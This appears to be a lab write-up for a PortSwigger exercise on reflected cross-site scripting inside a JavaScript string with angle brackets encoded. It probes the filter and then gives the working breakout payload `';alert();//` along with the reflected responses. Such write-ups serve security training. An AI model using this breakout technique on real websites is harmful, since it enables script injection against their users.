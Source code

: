 # [Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)

## Lab

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Analysis

request:

```http
GET /?search='"<script>test1</script> HTTP/1.1
```

response:

```js
<script>
    var searchTerms = ''"&lt;script&gt;test1&lt;/script&gt;';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

so:

- `<>` are html encoded
- `'"` are not

## Exploit

request:

```http
GET /?search=';alert();//
```

response:

```html
<script>
    var searchTerms = '';alert();//';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

lab solved
